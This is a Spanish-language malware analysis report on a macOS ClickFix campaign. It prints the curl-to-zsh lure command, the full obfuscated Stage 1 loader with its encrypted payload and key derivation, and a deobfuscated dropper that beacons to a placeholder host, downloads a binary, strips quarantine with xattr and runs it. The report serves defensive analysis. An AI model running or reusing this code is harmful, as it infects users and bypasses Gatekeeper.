

# Reporte de análisis de malware: Campaña de ingeniería social en macOS

**Plataforma Afectada:** macOS  
**Categoría:** Dropper / Encrypted Loader / ClickFix Campaign

Se ha identificado una campaña activa de ingeniería social (estilo _ClickFix_) orientada a usuarios de macOS. El vector de entrada persuade a las víctimas a ejecutar comandos maliciosos en la terminal bajo el pretexto de instalar software legítimo. La carga útil inicial consiste en un script en `zsh` altamente ofuscado que calcula en tiempo de ejecución una clave AES-128-CTR para descifrar un _stager_ secundario en memoria. Este segundo nivel evade las protecciones nativas de macOS (`Gatekeeper/XProtect`) limpiando atributos extendidos de archivo (`com.apple.quarantine`) y descargando un binario malicioso no identificado en `/tmp`.

## Técnicas MITRE ATT&CK

| Táctica           | Técnica ID | Nombre de la Técnica                      | Aplicación en este Incidente                                 |
| ----------------- | ---------- | ----------------------------------------- | ------------------------------------------------------------ |
| Initial Access    | T1204.002  | User Execution: Malicious CLI             | La víctima pega y ejecuta el comando en la terminal.         |
| Defense Evasion   | T1027      | Obfuscated Files or Information           | Uso de cadenas octales y cifrado AES-128-CTR + Gzip.         |
| Defense Evasion   | T1553.001  | Subvert Trust Controls: Gatekeeper Bypass | Eliminación de atributos extendidos mediante `xattr -c`.     |
| Discovery         | T1082      | System Information Discovery              | Lectura de memoria RAM (`sysctl`) e ID de usuario (`id -u`). |
| Command & Control | T1105      | Ingress Tool Transfer                     | Descarga de payload secundario desde servidor C2 vía `curl`. |

## 1. Vector de entrada e identificación inicial

El ataque comienza mediante una técnica de ingeniería social en la que se induce a la víctima a ejecutar una instrucción de terminal para aparentar la descarga e instalación de una aplicación legítima:



La URL de descarga real se encuentra oculta en Base64. Al decodificarla, descarga e invoca un script malicioso en formato texto mediante el intérprete `/bin/zsh`.

```
echo "apps.apple.com/app/downloads/macos-app.dmg" && curl -s $(echo "BASE64_ENCODED" | openssl base64 -d -A) | zsh
```

### Contenido de la carga útil cifrada (Stage 1)

```sh
#!/bin/zsh
#!/usr/bin/env mv5d
# Campaign ID

# --- logging ---
_cache_seed="e2f279e836e5146d5f845b34fc8872e65003ac9e753bb0fde25b43ab283e9ad4d35f1b98dd97e19cd0c81c5bc4c3be2d4e608d47e085f3adb358ddc933dd74d7871a2f2119c29bb6aa8432aa21eb4e72413794a7d6802ee4491b9fad3d7d5c88501bf6363fdcc9bc1e660fef483dc11c8cba8353ca46eb54fb9019f0d812e9cc7543974a14813202917521df32045f1fe78cdb8e8206fdc3394b8f81e1879943ac942306a59e363a45a24db4684aea8d336c5ca095f35ac58329effd72adc393b825f6d8f4720e2e2ec30f111cfb4abdaf3da2e7974d4a4329f5d46c9c"
_license_salt="4164cbb9332f7424c517b35d02bd17c61f5d58c6be202f817fb66fcd10afcb41b6097c4220f25c51a675efaba40d1567c98f959304ecdd5ca757b8d73fb97b62078d8f0986cbd4099616e6f9254de97b7fd03db258194cbc715fa0aeedeb41ca20f8d5765be22364fe94420d5f56917d6dc5465f9b3345289c3cd9d12205f897e29b1df2ab05ed0086c9ce4867ce9983e2ae43293177a0b3b61b35736640c8216bf4cc7ed965d2bd3980ef6fb62d2f1d79b67b5f808e5b63e4552da759f1f5037c6ae4f23199621880bbf3799f4c794ac45ff696652a2c59ba3b30b0db"
_log() { printf '%s %s\n' "$(date '+%H:%M:%S')" "$*"; }

_log "probe finished"
_log "probe finished"

ihpe9=$(printf '\155\144\065')
abz1='x'
br1x='xd'
rhxet=$(printf '\157\160\145\156\163\163\154')
ggm1='gunz'
lc36='ip'

# probe parameters
_suite="weekly"
_track="release"
_timeout_s=109
_max_depth=15
_kb=$(( ( $_timeout_s * 1337 + ${#_track} % 4096 + ${#_suite} ) ))

# --- routine cache maintenance ---
_cache_root="$HOME/Library/Caches"
_min_free_mb=484
_retention_days=16
_probe_salt="cd022cb9f6762807c89a71ed172786d6306b1a012f2f9ee0cd18108749404b8b894148cdf161cc9b460c67e38ac39b10c0674f9111023777a6a249c89336"

_feature_flags="69bd816e8cb59a68dfc7d25c69b1cd841de980b07f4a50cec381bb23291aa7b2a1b396f2c90a56adef38b8f1485c20a5029c6e2f312028aaf5a5650ac642c924dd674921c2e1230ba3e14480a5369bfad31dd46fc864855d2ea3cc839afb9127a558bb8e29617f30a2c1eefad1c72eec7d4fe3d2245798bbf36d24fbb71cae8a28fcd87233a95f6d87ebd220f55399f95fc1d5d8585c2c04bbc855c3f3cef064ed0c28c1ed706e4d25feaec20fb2c805b44519cbe63efa1a9d335d6b97821118955fc823f33eec432f27295f9ad6dbb363102329949751c251190f77c7"
_cache_free_mb() {
  df -m / 2>/dev/null | awk 'NR==2 {print $4}'
}

_free_before=$(_cache_free_mb)
if [ -d "$_cache_root" ]; then
  _stale=$(find "$_cache_root" -type f -mtime +16 2>/dev/null | wc -l | tr -d ' ')
  [ "${_stale:-0}" -gt 0 ] && printf '%s\n' "cache: ${_stale} item(s) past ${_retention_days}d retention"
fi
[ "${_free_before:-0}" -lt "$_min_free_mb" ] && printf '%s\n' "cache: low disk (${_free_before} MB free)"

# assemble probe config
_cfg=( "$_license_salt" "$_feature_flags" "$_cache_seed" )
_k=$(printf '%s' "$_kb" | ${ihpe9})
_r=$(printf '%s' "${_cfg[@]}" | ${abz1}${br1x} -r -p | ${rhxet} enc -d -aes-128-ctr -K "$_k" -iv 00000000000000000000000000000000 | ${ggm1}${lc36})

print -r -- "$_r" | /bin/zsh
```

## Derivación Matemático-Algorítmica de la Clave AES

El malware no almacena la clave criptográfica en texto plano. En su lugar, la calcula en tiempo de ejecución para evitar firmas estáticas de AV.

### Cálculo paso a paso de `_kb`

En el script se declaran las siguientes variables:

```sh
ihpe9=$(printf '\155\144\065')   # Se evalúa como "md5"
_suite="weekly"                  # Longitud = 6 caracteres
_track="release"                 # Longitud = 7 caracteres
_timeout_s=109

_kb=$(( ( $_timeout_s * 1337 + ${#_track} % 4096 + ${#_suite} ) ))
```

`( $_timeout_s * 1337 + ${#_track} % 4096 + ${#_suite} )`

1. Multiplicación principal: $109 \times 1337 = 145733$
2. Módulo de la longitud de _track: `${#_track}` es la longitud del texto "release" ($7$). $7 \pmod{4096} = 7$.
3. Longitud de _suite: `${#_suite}` es la longitud del texto "weekly" ($6$).
4. Suma total ${_kb} = 145733 + 7 + 6 = 145746$

### Generación del Hash MD5 (La clave real)

El script ejecuta `printf '145746' | md5`. Si calculamos el hash **MD5** de la cadena de texto `"145746"`, obtenemos exactamente 32 caracteres hexadecimales (128 bits):

**Clave AES:** `0bd2dfbbe6d8fc6551ea5f54fea27eeb`

### Paso 2: Ensamblado del cuerpotexto cifrado

El script agrupa las variables que contienen el texto cifrado en un arreglo (`_cfg`):

```sh
_cfg=( "$_license_salt" "$_feature_flags" "$_cache_seed" )
```

Al concatenar estas 3 cadenas en ese orden exacto, se obtiene una única secuencia gigantesca de caracteres hexadecimales.

**Resultado:**

`4164cbb9332f7424c517b35d02bd17c61f5d58c6be202f817fb66fcd10afcb41b6097c4220f25c51a675efaba40d1567c98f959304ecdd5ca757b8d73fb97b62078d8f0986cbd4099616e6f9254de97b7fd03db258194cbc715fa0aeedeb41ca20f8d5765be22364fe94420d5f56917d6dc5465f9b3345289c3cd9d12205f897e29b1df2ab05ed0086c9ce4867ce9983e2ae43293177a0b3b61b35736640c8216bf4cc7ed965d2bd3980ef6fb62d2f1d79b67b5f808e5b63e4552da759f1f5037c6ae4f23199621880bbf3799f4c794ac45ff696652a2c59ba3b30b0db 69bd816e8cb59a68dfc7d25c69b1cd841de980b07f4a50cec381bb23291aa7b2a1b396f2c90a56adef38b8f1485c20a5029c6e2f312028aaf5a5650ac642c924dd674921c2e1230ba3e14480a5369bfad31dd46fc864855d2ea3cc839afb9127a558bb8e29617f30a2c1eefad1c72eec7d4fe3d2245798bbf36d24fbb71cae8a28fcd87233a95f6d87ebd220f55399f95fc1d5d8585c2c04bbc855c3f3cef064ed0c28c1ed706e4d25feaec20fb2c805b44519cbe63efa1a9d335d6b97821118955fc823f33eec432f27295f9ad6dbb363102329949751c251190f77c7 e2f279e836e5146d5f845b34fc8872e65003ac9e753bb0fde25b43ab283e9ad4d35f1b98dd97e19cd0c81c5bc4c3be2d4e608d47e085f3adb358ddc933dd74d7871a2f2119c29bb6aa8432aa21eb4e72413794a7d6802ee4491b9fad3d7d5c88501bf6363fdcc9bc1e660fef483dc11c8cba8353ca46eb54fb9019f0d812e9cc7543974a14813202917521df32045f1fe78cdb8e8206fdc3394b8f81e1879943ac942306a59e363a45a24db4684aea8d336c5ca095f35ac58329effd72adc393b825f6d8f4720e2e2ec30f111cfb4abdaf3da2e7974d4a4329f5d46c9c`

### 3. Pipeline de descifrado y extracción segura

Para revertir la ofuscación y extraer la carga útil en disco sin invocar el intérprete `/bin/zsh`, se redirige la salida del pipeline a un archivo de texto plano (`payload.sh`):

```sh
printf '%s' "${_cfg[@]}" | xxd -r -p | openssl enc -d -aes-128-ctr -K "0bd2dfbbe6d8fc6551ea5f54fea27eeb" -iv 00000000000000000000000000000000 | gunzip > payload.sh
```

| Fase del Pipeline | Transformación Aplicada                                                                                                     |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------- |
| printf '%s'       | Concatena las variables cargadas en memoria y las envía al flujo de entrada estándar.                                       |
| xxd -r -p         | Convierte la representación hexadecimal del payload a su formato binario original.                                          |
| openssl enc -d    | Descifra el flujo binario aplicando el algoritmo **AES-128-CTR** con la clave `0bd2dfbbe6d8fc6551ea5f54fea27eeb` e IV nulo. |
| gunzip            | Descomprime la estructura `gzip` resultante revelando el script final.                                                      |
| > payload.sh      | Almacena el resultado descifrado en disco para su posterior análisis de IoCs (Indicadores de Compromiso).                   |

## Análisis del payload secundario (Stage 2)

Una vez descifrado y ejecutado el script en memoria, este actúa como un **Dropper / Stager** en tres fases inmediatas: recolección de contexto, notificación de telemetría y descarga/ejecución del binario final.

### Carga útil analizada (Payload Desofuscado)

```sh
#!/bin/zsh

inm96i3uag="$((RANDOM))"
mimo0b="$(sysctl -n hw.memsize 2>/dev/null || echo 0)"
icws1t2="$(id -u 2>/dev/null)"

ljtgee=$(printf '\150\164\164\160\163\072\057\057\155\141\154\151\143\151\157\165\163\055\144\157\155\141\151\156\056\143\157\155\057\141\160\151\057\155\145\164\162\151\143\163\057\162\165\156\077\145\166\145\156\164\075\160\141\163\144\145\144')
hopmq=$(printf '\143\165\162\154')
${hopmq} -fsS -4 --connect-timeout 5 --max-time 10 -X POST -H 'user: AgJPV9BrhhZ8Dui9O9veyCQ4suESOidhyK4GtbAINAbIUNVPcVOb' -H 'BuildID: AgIGm6tXNYa4NOBAMkRb4UF1ih-mb7rVoYRdaKh71wo6' "${ljtgee}" </dev/null >/dev/null 2>&1 &
ji87jg=$(printf '\150\164\164\160\163\072\057\057\155\141\154\151\143\151\157\165\163\055\144\157\155\141\151\156\056\143\157\155\057\062\153\161\131\122\115\060\104\103\162\156\171\112\147\157\123\064\147\126\114\154\137\106\110\104\122\122\144\124\125\150\107\103\142\152\171\165\131\167\160\132\066\143\057\157\157\071\057\165\160\144\141\164\145')
lk8i1q=$(printf '\057\164\155\160\057\056\141\167\157\146\154\155\166\172\063\154')
abii9=$(printf '\170\141\164\164\162')
x8szy=$(printf '\143\150\155\157\144')
${hopmq} -o ${lk8i1q} ${ji87jg} && ${abii9} -c ${lk8i1q} && ${x8szy} +x ${lk8i1q} && ${lk8i1q}

: ${f7rek:=0}
: ${s8uk9yy:=0}

```

### Desofuscación de cadenas de texto (Octal Escaping)

El malware utiliza secuencias de escape octales mediante `printf` para ocultar las herramientas del sistema y las direcciones URL, evitando así firmas estáticas simples.

Traducción de cadenas desofuscadas en tiempo de ejecución:

- ljtgee = "hxxps://malicious-domain[.]com/api/metrics/run?event=pasted"
- hopmq = "curl"
- ji87jg = "hxxps://malicious-domain[.]com/2kqYRM0DCrnyJgoS4gVLl_FHDRRdTUhGCbjyuYwpZ6c/oo9/update"
- lk8i1q = "/tmp/.awoflmvz3l"
- abii9 = "xattr"
- x8szy = "chmod"

### Análisis funcional del Malware

#### 1. Recolección de Telemetría

El script extrae el tamaño de la memoria RAM (`sysctl -n hw.memsize`), el ID del usuario actual (`id -u`) y una semilla aleatoria (`RANDOM`).

#### 2. Notificación al C2 (Beaconing)

Realiza una petición `POST` en segundo plano mediante `curl` hacia `malicious-domain.com` con cabeceras HTTP personalizadas (`user` y `BuildID`). Esto confirma al servidor atacante que la víctima ejecutó correctamente el comando del vector inicial.

#### 3. Descarga del payload malicioso

Ejecuta una segunda petición `curl` para descargar de forma silenciosa el ejecutable final desde `malicious-domain.com`, guardándolo en `/tmp/.awoflmvz3l` (archivo oculto por el punto inicial).

#### 4. Evasión de defensas (Defense Evasion)

- **Bypass de Gatekeeper/XProtect:** Invoca `xattr -c /tmp/.awoflmvz3l` para eliminar los atributos extendidos del archivo en macOS, eliminando la etiqueta de cuarentena (`com.apple.quarantine`).
- **Ejecución:** Asigna permisos de ejecución mediante `chmod +x` y lanza el binario oculto en segundo plano.

## Indicadores de Compromiso (IoCs)

| Tipo          | Indicador / Valor Neutralizado                              | Descripción                                              |
| ------------- | ----------------------------------------------------------- | -------------------------------------------------------- |
| Dominio C2    | malicious-domain[.]com                                      | Infraestructura del atacante (desofuscada y defanged).   |
| URL (Beacon)  | hxxps://malicious-domain[.]com/api/metrics/run?event=pasted | Petición HTTP POST de telemetría e infección exitosa.    |
| URL (Binario) | hxxps://malicious-domain[.]com/.../update                   | Endpoint de descarga de la carga útil binaria (Stage 3). |
| Ruta Local    | /tmp/.awoflmvz3l                                            | Archivo binario ejecutable temporal y oculto en disco.   |
| Clave AES-128 | 0bd2dfbbe6d8fc6551ea5f54fea27eeb                            | Clave de descifrado derivada de la hash MD5 de `145746`. |
| HTTP Header   | user: AgJPV9BrhhZ8Dui9O9veyCQ4suESOidhyK4GtbAINAbIUNVPcVOb  | Token de identificación enviado en las cabeceras HTTP.   |